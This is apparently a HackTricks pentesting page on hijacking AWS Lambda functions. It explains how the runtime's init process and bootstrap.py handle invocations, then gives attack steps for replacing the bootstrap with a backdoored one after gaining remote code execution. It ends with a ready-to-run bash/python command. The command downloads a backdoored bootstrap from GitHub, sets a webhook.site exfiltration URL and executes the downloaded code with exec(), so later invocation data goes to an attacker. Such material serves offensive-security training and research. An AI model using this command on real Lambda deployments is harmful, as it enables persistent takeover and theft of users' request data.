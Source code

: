 # AWS - Steal Lambda Requests

{{#include ../../../../banners/hacktricks-training.md}}

## Lambda Flow

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is a process outside the container that **send** **invocations** to the **init** process.
2. The init process listens on port **9001** exposing some interesting endpoints:
   - **`/2018-06-01/runtime/invocation/next`** – get the next invocation event
   - **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – return the handler response for the invoke
   - **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – return an execution error
3. **bootstrap.py** has a loop getting invocations from the init process and calls the users code to handle them (**`/next`**).
4. Finally, **bootstrap.py** sends to init the **response**

Note that bootstrap loads the user code as a module, so any code execution performed by the users code is actually happening in this process.

## Stealing Lambda Requests

The goal of this attack is to make the users code execute a malicious **`bootstrap.py`** process inside the **`bootstrap.py`** process that handle the vulnerable request. This way, the **malicious bootstrap** process will start **talking with the init process** to handle the requests while the **legit** bootstrap is **trapped** running the malicious one, so it won't ask for requests to the init process.

This is a simple task to achieve as the code of the user is being executed by the legit **`bootstrap.py`** process. So the attacker could:

- **Send a fake result of the current invocation to the init process**, so init thinks the bootstrap process is waiting for more invocations.
  - A request must be sent to **`/${invoke-id}/response`**
  - The invoke-id can be obtained from the stack of the legit **`bootstrap.py`** process using the [**inspect**](https://docs.python.org/3/library/inspect.html) python module (as [proposed here](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) or just requesting it again to **`/2018-06-01/runtime/invocation/next`** (as [proposed here](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Execute a malicious **`boostrap.py`** which will handle the next invocations
  - For stealthiness purposes it's possible to send the lambda invocations parameters to an attackers controlled C2 and then handle the requests as usual.
  - For this attack, it's enough to get the original code of **`bootstrap.py`** from the system or [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), add the malicious code and run it from the current lambda invocation.

### Attack Steps

1. Find a **RCE** vulnerability.
2. Generate a **malicious** **bootstrap** (e.g. [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Execute** the malicious bootstrap.

You can easily perform these actions running:

```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```

For more info check [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}





